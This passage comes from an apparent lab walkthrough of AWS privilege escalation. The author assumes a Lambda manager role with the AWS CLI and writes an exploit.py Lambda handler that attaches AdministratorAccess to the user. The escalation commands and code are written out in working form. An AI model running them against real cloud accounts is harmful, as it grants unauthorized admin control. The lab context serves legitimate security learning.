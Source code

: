 Now as I was thinking this through, I looked up potential attack paths using a lambda function and found [this page](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/). If you scroll down to 15, you'll find a mini walkthrough of all the steps we need to get ourselves the admin access we want. This is the privilege escalation we'll take. I'll walk through this next.

Now I'll note that I said it 'seems' and 'probably' when discussing the roles. I never actually verified the information on those roles, I kinda just went off the names. Not the best thing in hindsight. So if you want to verify it before going on run `aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-lambdaManager-policy-cgidasldh6kuco --version-id v1 --profile chris` (replace the arn with the 2nd policy from the list of policies found)

# Privilege Escalation

## Assume Role

So first thing is to figure out how to assume the role of the lambda manager. I asked ChatGPT for the command: `aws sts assume-role --role-arn arn:aws:iam::381491899745:role/cg-lambdaManager-role-cgidasldh6kuco --role-session-name escalateSession --region us-east-1 --output json --profile lambda_priv`. Quite a long one.

Once you run that you'll get a json response detailing some credentials and the session token to take on this new role. Same way as we configured the first one, but we'll need to add they session in manually afterwards:

```bash
aws configure --profile lambda_priv_new
#Pass in keys
aws configure set profile.lambda_priv_new.aws_session_token PASTEVALUEHERE
```

And verify you got this new role by running `aws sts get-caller-identity` and it should tell you that you're the lambda manager!

## Strike!

Now to launch the actual attack, I copied pasted the instructions from the [website](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/) we found earlier,  and has ChatGPT provide the code and commands needed.

First step is to create the python code that will give you the admin access policy. Create a file caled `exploit.py`.

```python
import boto3

def lambda_handler(event, context):
    iam = boto3.client('iam')
    response = iam.attach_user_policy(
        UserName='chris-cgidasldh6kuco',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return {
        'statusCode': 200,
        'body': response
    }
```
